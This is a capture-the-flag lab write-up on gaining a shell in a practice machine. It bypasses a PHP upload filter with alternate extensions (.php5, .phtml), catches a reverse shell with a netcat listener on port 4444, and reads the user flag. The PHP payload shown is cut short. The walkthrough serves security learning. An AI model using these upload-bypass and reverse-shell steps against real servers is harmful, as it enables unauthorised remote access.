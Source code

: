 ```php
<?php
    system('rm /tmp/f; ')
?>
```

### Attempt upload

Upload panel does not allow .php uploads; can try to bypass with different PHP extensions.

```shell
.php    ## Fails.
.php5   ## This one works..

.php4   ## didn't bother trying
.phtml  ## ..
```

Once reverse shell uploaded, execute by browsing to site. But start `nc -lvp 4444` listener first.

### Start netcat listener

```shell
nc -lvp 4444
```
### Execute reverse shell

Browse to the uploaded file in browser. On execute, the PHP file will create netcat connection on attacker machine.

### Gain shell

Got shell as `www-data`.

```shell
kali@kali:~/Desktop/repos/ctf/try-hack-me/root-me$ nc -lvp 4444
listening on [any] 4444 ...
10.10.193.72: inverse host lookup failed: Unknown host
connect to [10.11.8.219] from (UNKNOWN) [10.10.193.72] 38060
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

### Find user flag

User flag is in `/var/www`.

```shell
$ pwd
/var/www

$ ls -lah
total 20K
drwxr-xr-x  3 www-data www-data 4.0K Aug  4 17:54 .
drwxr-xr-x 14 root     root     4.0K Aug  4 15:08 ..
-rw-------  1 www-data www-data  129 Aug  4 17:54 .bash_history
drwxr-xr-x  6 www-data www-data 4.0K Aug  4 17:19 html
-rw-r--r--  1 www-data www-data   21 Aug  4 17:30 user.txt

$ cat user.txt
THM{y0u_g0t_a_sh3ll}
```
